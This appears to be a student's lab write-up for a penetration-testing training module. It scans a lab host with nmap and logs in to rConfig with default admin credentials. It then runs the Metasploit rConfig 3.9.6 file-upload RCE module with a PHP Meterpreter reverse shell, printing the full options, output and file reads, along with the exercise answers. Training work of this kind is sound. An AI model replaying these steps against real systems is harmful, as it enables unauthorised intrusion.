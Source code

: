 # Infiltrating Unix/Linux
## Search For an Exploit Module
There may be useful exploit modules that are not installed on our system or just aren't showing up via search. In these cases, it's good to know that Rapid 7 keeps code for exploit modules in their [repos on github](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits). We can copy the code installed from Github into a file and save it in `/usr/share/metasploit-framework/modules/exploits/<path>` similar to where they are storing the code in the GitHub repo. We should also keep msf up to date using the commands apt update; apt install metasploit-framework or your local package manager.

## Questions
1. What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce? **Answer: PHP**
2. Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system. **Answer: edgerouter-isp**
   - Start the nmap scan, found open web services:
        ```
        $ sudo nmap -sV 10.129.48.85
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-24 00:33 CDT
        Nmap scan report for 10.129.48.85
        Host is up (0.24s latency).
        Not shown: 994 closed tcp ports (reset)
        PORT     STATE SERVICE  VERSION
        21/tcp   open  ftp      vsftpd 2.0.8 or later
        22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
        80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
        111/tcp  open  rpcbind  2-4 (RPC #100000)
        443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
        3306/tcp open  mysql    MySQL (unauthorized)
        ```
    - Try to visit https://10.129.48.85 and login using the credentials `admin`:`admin` and successfully logged in.
    - Use msfconsole with this module `linux/http/rconfig_vendors_auth_file_upload_rce` and set the required options:
        ```
        exploit(linux/http/rconfig_vendors_auth_file_upload_rce) >> options

        Module options (exploit/linux/http/rconfig_vendors_auth_file_upload_rce):

        Name       Current Setting  Required  Description
        ----       ---------------  --------  -----------
        PASSWORD   admin            yes       Password of the admin account
        Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
        RHOSTS     10.129.48.85     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
        RPORT      443              yes       The target port (TCP)
        SSL        true             no        Negotiate SSL/TLS for outgoing connections
        SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
        TARGETURI  /                yes       The base path of the rConfig server
        URIPATH                     no        The URI to use for this exploit (default is random)
        USERNAME   admin            yes       Username of the admin account
        VHOST                       no        HTTP server virtual host


        When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

        Name     Current Setting  Required  Description
        ----     ---------------  --------  -----------
        SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
        SRVPORT  8080             yes       The local port to listen on.


        Payload options (php/meterpreter/reverse_tcp):

        Name   Current Setting  Required  Description
        ----   ---------------  --------  -----------
        LHOST  10.10.14.147     yes       The listen address (an interface may be specified)
        LPORT  4444             yes       The listen port


        Exploit target:

        Id  Name
        --  ----
        0   rConfig <= 3.9.6



        View the full module info with the info, or info -d command.

        [msf](Jobs:0 Agents:0) exploit(linux/http/rconfig_vendors_auth_file_upload_rce) >> exploit
        [*] Started reverse TCP handler on 10.10.14.147:4444 
        [*] Running automatic check ("set AutoCheck false" to disable)
        [+] 3.9.6 of rConfig found !
        [+] The target appears to be vulnerable. Vulnerable version of rConfig found !
        [+] We successfully logged in !
        [*] Uploading file 'vfcjkhelry.php' containing the payload...
        [*] Triggering the payload ...
        [*] Sending stage (40004 bytes) to 10.129.48.85
        [+] Deleted vfcjkhelry.php
        [*] Meterpreter session 1 opened (10.10.14.147:4444 -> 10.129.48.85:60924) at 2025-09-24 00:42:26 -0500

        (Meterpreter 1)(/home/rconfig/www/images/vendor) > cd /
        (Meterpreter 1)(/) > ls
        Listing: /
        ==========

        Mode              Size   Type  Last modified              Name
        ----              ----   ----  -------------              ----
        040555/r-xr-xr-x  53248  dir   2021-09-24 14:37:06 -0500  bin
        040555/r-xr-xr-x  4096   dir   2021-09-24 14:42:55 -0500  boot
        040755/rwxr-xr-x  3120   dir   2025-09-24 00:28:21 -0500  dev
        040755/rwxr-xr-x  56     dir   2021-10-18 16:28:04 -0500  devicedetails
        040755/rwxr-xr-x  8192   dir   2025-09-24 00:28:23 -0500  etc
        040755/rwxr-xr-x  84     dir   2021-09-24 14:44:24 -0500  home
        040555/r-xr-xr-x  4096   dir   2021-09-24 14:35:08 -0500  lib
        040555/r-xr-xr-x  86016  dir   2021-09-24 14:37:11 -0500  lib64
        040755/rwxr-xr-x  6      dir   2018-04-10 23:59:55 -0500  media
        040755/rwxr-xr-x  6      dir   2018-04-10 23:59:55 -0500  mnt
        040755/rwxr-xr-x  16     dir   2021-09-24 14:17:05 -0500  opt
        040555/r-xr-xr-x  0      dir   2025-09-24 00:28:13 -0500  proc
        040550/r-xr-x---  278    dir   2021-10-18 20:31:55 -0500  root
        040755/rwxr-xr-x  1300   dir   2025-09-24 00:28:31 -0500  run
        040555/r-xr-xr-x  20480  dir   2021-09-24 14:35:18 -0500  sbin
        040755/rwxr-xr-x  6      dir   2018-04-10 23:59:55 -0500  srv
        040555/r-xr-xr-x  0      dir   2025-09-24 00:28:14 -0500  sys
        041777/rwxrwxrwx  6      dir   2025-09-24 00:42:22 -0500  tmp
        040755/rwxr-xr-x  155    dir   2021-09-24 14:13:04 -0500  usr
        040755/rwxr-xr-x  4096   dir   2021-09-24 14:29:26 -0500  var

        (Meterpreter 1)(/) > cd devicedetails
        (Meterpreter 1)(/devicedetails) > ls
        Listing: /devicedetails
        =======================

        Mode              Size  Type  Last modified              Name
        ----              ----  ----  -------------              ----
        100644/rw-r--r--  568   fil   2021-10-18 16:23:40 -0500  edgerouter-isp.yml
        100644/rw-r--r--  179   fil   2021-10-18 16:28:03 -0500  hostnameinfo.txt

        (Meterpreter 1)(/devicedetails) > cat hostnameinfo.txt
        Note: 

        All yaml (.yml) files should be named after the hostname of the router or switch they will configure. We discussed this in our meeting back in January. Ask Bob about it. 
        (Meterpreter 1)(/devicedetails) > cat edgerouter-isp.yml
        me: configure top level configuration
        cisco.ios.ios_config:
            lines: hostname edgerouter-isp

        - name: configure interface settings
        cisco.ios.ios_config:
            lines:
            - description test interface
            - ip address 192.168.0.10 255.255.255.0
            parents: interface gigabitethernet0/0

        - name: configure ip helpers on multiple interfaces
        cisco.ios.ios_config:
            lines:
            - ip helper-address 10.10.10.15
            - ip helper-address 10.10.11.12
            parents: '{{ item }}'
        with_items:
        - interface Ethernet1
        - interface Ethernet2
        - interface GigabitEthernet1
        ```